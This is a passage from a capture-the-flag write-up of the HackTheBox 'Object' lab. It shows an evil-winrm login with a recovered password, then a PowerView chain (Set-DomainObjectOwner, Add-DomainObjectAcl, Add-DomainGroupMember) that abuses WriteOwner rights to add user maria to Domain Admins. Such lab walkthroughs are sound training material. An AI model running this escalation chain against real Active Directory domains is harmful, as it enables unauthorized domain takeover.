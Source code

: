 I will then place these passwords into EvilWinRM to see which one works:

```
evil-winrm -i object.htb -u maria -p 'W3llcr4ft3d_4cls'
```

We are now Maria:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Step 3: <mark style="color:red;">Maria (WriteOwner) -> Domain Admins Group</mark>

```
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity maria
```

* <mark style="color:yellow;">This was referenced from BloodHound's WriteOwner Abuse Tab</mark>

```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```

```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity Maria -Rights WriteMembers
```

Granting Rights All:

```
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity Maria -Rights All
```

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

Add Maria to "Domain Admins" group:

```
net group "Domain Admins" /domain
```

<figure><img src="../../../.gitbook/assets/image (9) (5).png" alt=""><figcaption></figcaption></figure>
